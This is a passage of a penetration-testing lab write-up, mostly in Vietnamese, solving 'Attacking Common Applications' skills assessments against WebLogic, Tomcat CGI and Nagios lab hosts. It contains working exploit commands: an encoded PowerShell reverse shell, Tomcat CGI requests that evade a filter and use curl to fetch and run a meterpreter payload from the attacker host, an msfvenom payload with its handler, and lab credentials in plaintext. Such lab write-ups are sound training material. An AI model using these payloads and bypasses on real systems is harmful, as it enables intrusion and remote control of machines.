Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 06:33 EDT
Nmap scan report for 10.129.201.102
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
7001/tcp open  http    Oracle WebLogic admin httpd 12.2.1.3 (T3 enabled)
|_http-title: Error 404--Not Found
|_weblogic-t3-info: T3 protocol in use (WebLogic version: 12.2.1.3)
```

+ 1  Enumerate the application for vulnerabilities. Gain remote code execution and submit the contents of the flag.txt file on the administrator desktop.

```zsh
searchsploit weblogin

WebLogic Server 10.3.6.0.0 / 12.1.3.0.0 / 12.2.1.3.0 / 12.2.1.4.0 / 14.1.1.0.0 - Unauthenticated RCE via GET request                     | java/webapps/48971.py
```


```zsh
python3 48971.py http://10.129.201.102:7001/ "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOQA0ACIALAAxADIAMwA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
[+] Sending GET Request ....
[+] Done !!
```


# Attacking Common Applications - Skills Assessment I

During a penetration test against the company Inlanefreight, you have performed extensive enumeration and found the network to be quite locked down and well-hardened. You come across one host of particular interest that may be your ticket to an initial foothold. Enumerate the target host for potentially vulnerable applications, obtain a foothold, and submit the contents of the flag.txt file to complete this portion of the skills assessment.

#### Questions
+ 1  What vulnerable application is running?


+ 1  What port is this application running on?


+ 1  What version of the application is in use?


+ 1  Exploit the application to obtain a shell and submit the contents of the flag.txt file on the Administrator desktop.

Quét qua mục tiêu với nmap

```zsh
sudo nmap -sCV -T 4 --min-rate 3000 10.129.201.89 -vv -oA skill-assessment-1
```


```zsh
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_09-01-21  08:07AM       <DIR>          website_backup
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Freight Logistics, Inc
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=APPS-SKILLS1
| Issuer: commonName=APPS-SKILLS1
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-17T16:20:10
| Not valid after:  2026-01-16T16:20:10
| MD5:   c192:c399:bcd0:1007:93bf:34a6:ffc8:847f
| SHA-1: f651:a50f:c508:3bf7:f8ee:82b7:025b:a231:dfa6:5a8f
| -----BEGIN CERTIFICATE-----
| MIIC3DCCAcSgAwIBAgIQEF4wilopla9IfBHAWeo6sTANBgkqhkiG9w0BAQsFADAX
| MRUwEwYDVQQDEwxBUFBTLVNLSUxMUzEwHhcNMjUwNzE3MTYyMDEwWhcNMjYwMTE2
| MTYyMDEwWjAXMRUwEwYDVQQDEwxBUFBTLVNLSUxMUzEwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQCtO9wm8OcetiLADntvY6Sh1VMsRCwihFBBpjxKx6ly
| lt04vf8mvGcklJzRIS7+woihjyHN69myNexJlmMt/K7RmwXn2FEoNZo7rEf1T+fq
| yoWArY6A3Qr2umI4bW+2wjLHU2D56sNgN2mYMA/ZjKKgE29daV3HWvHDCuEjNfE/
| +uagyZ1RZr7IcNwXcs7t5vlZROou+K601fqupWpua8rIgUHh6OHu4jrM6igjrV8F
| ntxz2We/NJeeH7O5W+lRqgmG3AgnkSv+ZSkf4mnYMi1EAx73lZTLBHxbxgdSJkIC
| Hzvaf++FBN0KWWGRSLyrZUveLf8bJNbVPKOFvzXMWxSFAgMBAAGjJDAiMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEA
| h+61Bp/SpEWyLT4jxNPsx2/xt2GptIv2S0u9FwCOtHEkfKnQFbe9u0kj7eFwqEuN
| Y6QZXWuNKc8MPpQGUxSgyeMi/9d6wI+0NAFrXKDAkJAovwOBYOce6ubHM7Og0RtX
| v7nd//+UDCDVF/jXDjetWZXZG9+ryahv21oiHSn38B0NQS9cnKofkw+MEGTgBOzu
| FkGTtkIO375H36vE7CRI31QIUvwEwiBDFGEUkKcyx0mV77p28HdV3DFbTPuui75c
| zoHcBtN6n7D0OH6FwbV9OgqsbhuQ2urOBpxsslKabAq9PsHuQVqUbibErbbb3iL5
| Yr8pPGYrm8GSRRbkkiOM6Q==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-07-18T16:22:14+00:00; +1d00h02m05s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: APPS-SKILLS1
|   NetBIOS_Domain_Name: APPS-SKILLS1
|   NetBIOS_Computer_Name: APPS-SKILLS1
|   DNS_Domain_Name: APPS-SKILLS1
|   DNS_Computer_Name: APPS-SKILLS1
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-18T16:22:04+00:00
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp open  http          syn-ack ttl 127 Jetty 9.4.42.v20210604
|_http-server-header: Jetty(9.4.42.v20210604)
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
8009/tcp open  ajp13         syn-ack ttl 127 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http          syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/9.0.0.M1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:window
```

Trước hết cứ thử vào ftp xem có thông tin gì không


Có một thư mục website_backup trong đó chứa mã nguồn của một trang web nào đó.

Tôi sẽ kiểm tra kĩ hơn bằng `eyewitness`

```zsh
eyewitness --web -x skill-assessment-1.xml -d skill-assessment-1_eyewitness
```


Nhận thấy Tomcat có vẻ có lỗ hổng khai thác tuyệt vời hơn so với Jetty, chúng ta sẽ thử với Tomcat trước.

Phiên bản này: `9.0.0.M1` có thể bị khai thác để thực thi mã từ xa - Tomcat CGI

```zsh
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.201.89:8080/cgi/FUZZ -e .bat,.cmd

cmd.bat                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 286ms]
```


Chúng ta có thể thực thi mã từ xa.


Tiếp theo cần lấy revershell hoặc tải một webshell sang như `p0wny shell` để dễ tương tác hơn.

Tôi chắc rằng có thứ gì đó đang ngăn cản chúng ta:


Nếu dùng `dir%2a..` sẽ không nhận được gì.

Nếu dùng `dir+..` thì chúng ta nhận được kết quả:


Như vậy có một bộ lọc cơ bản ở đây.


Có vẻ như khoảng trắng và kí tự `%` không được chào đón ở đây.

Tôi nhận ra rằng, chúng ta buộc phải thực thi lệnh thông qua lệnh `dir`, chúng ta không thể gọi file để chạy trực tiếp từ đầu.

```html
GET /cgi/cmd.bat?&dir+c:\windows\system32\curl.exe&&c:\windows\system32\whoami.exe
```


Nếu chạy đơn câu lệnh, sẽ chẳng có gì:



Tôi sẽ tải sang tệp shell.php

```html
GET /cgi/cmd.bat?&dir+c:\windows\system32\curl.exe&&c:\windows\system32\curl.exe+-O+http://10.10.14.108:8000/shell.php HTTP/1.1
```


Chúng ta không thể chạy file `.php`


Chúng ta sẽ tải lên file `.exe`

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.108 lport=2222 -f exe -o 28afbc9529a8855939ff7d2d8ad9295c.exe
```

```zsh
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 2222
lport => 2222
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.108:2222
```

Tải lên revserse shell.

```html
GET /cgi/cmd.bat?&dir+c:\windows\system32\curl.exe&&c:\windows\system32\curl.exe+-O+http://10.10.14.108:8000/28afbc9529a8855939ff7d2d8ad9295c.exe HTTP/1.1
```

Chạy khai thác

```html
GET /cgi/cmd.bat?&dir+c:\windows\system32\curl.exe&&28afbc9529a8855939ff7d2d8ad9295c.exe HTTP/1.1
```


# Attacking Common Applications - Skills Assessment II

During an external penetration test for the company Inlanefreight, you come across a host that, at first glance, does not seem extremely interesting. At this point in the assessment, you have exhausted all options and hit several dead ends. Looking back through your enumeration notes, something catches your eye about this particular host. You also see a note that you don't recall about the `gitlab.inlanefreight.local` vhost.

Performing deeper and iterative enumeration reveals several serious flaws. Enumerate the target carefully and answer all the questions below to complete the second part of the skills assessment.

#### Questions

vHosts needed for these questions:

- `gitlab.inlanefreight.local`

+ 1  What is the URL of the WordPress instance?

```
http://blog.inlanefreight.local
```

+ 1  What is the name of the public GitLab project?

```
Virtualhost
```

+ 1  What is the FQDN of the third vhost?


+ 1  What application is running on this third vhost? (One word)


+ 1  What is the admin password to access this application?


+ 1  Obtain reverse shell access on the target and submit the contents of the flag.txt file.


Truy cập vào `http://gitlab.inlanefreight.local:8180/users/sign_up`

Tôi sẽ đăng kí một tài khoản.


Không có  gì đặc biệt tại `/explore`


Ngoại trừ thông tin đăng nhập mặc định được khởi tạo trong `http://gitlab.inlanefreight.local:8180/root/nagios-postgresql/-/blob/master/INSTALL` , tôi không chắc nó có thể sử dụng...


Phiên bản dù đã cũ, nhưng không có nhiều thông tin về các lỗ hổng bảo mật.



Tôi sẽ thử liệt kê người dùng.

```zsh
python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8180/ --wordlist /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt
```

Song song với đó, tại web service cổng 80, có một liên kết cần xem xét.


Trang web này sử dụng `wordpress version 5.8`...


Về FQDN, tôi sử dụng công cụ `ffuf` để liệt kê.

```zsh
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u http://inlanefreight.local/ -H "Host: FUZZ.inlanefreight.local" -fs 46166
```


Tại vhost này, `nagios` đang được triển khai.


Trở lại phần trên, chúng ta đã có được thông tin đăng nhập khi tìm kiếm trong `gitlab`

```
nagiosadmin WITH PASSWORD 'oilaKglm7M09@CPL&^lC';
```

Giao diện trang quản trị:


Phiên bản `nagios` là 5.7.5


Phiên bản này có thể khai thác để thực thi mã từ xa với thông tin xác thực cần thiết mà chúng ta đã có.


Dễ dàng có được Reverse Shell

```zsh
python3 49422.py http://monitoring.inlanefreight.local/ nagiosadmin 'oilaKglm7M09@CPL&^lC' 10.10.15.171 1234
```


# Attacking Common Applications - Skills Assessment III

---

During our penetration test our team found a Windows host running on the network and the corresponding credentials for the Administrator. It is required that we connect to the host and find the `hardcoded password` for the MSSQL service.


#### Questions
 RDP to  with user "Administrator" and password "xcyj8izxNVzhf4z"

+ 0  What is the hardcoded password for the database connection in the MultimasterAPI.dll file?

Vị trí file .dll mà ta cần tìm.


Mở với dnspy.

Tại đây, chúng ta có thể thấy mật khẩu cần tìm để truy vấn từ cơ sở dữ liệu.


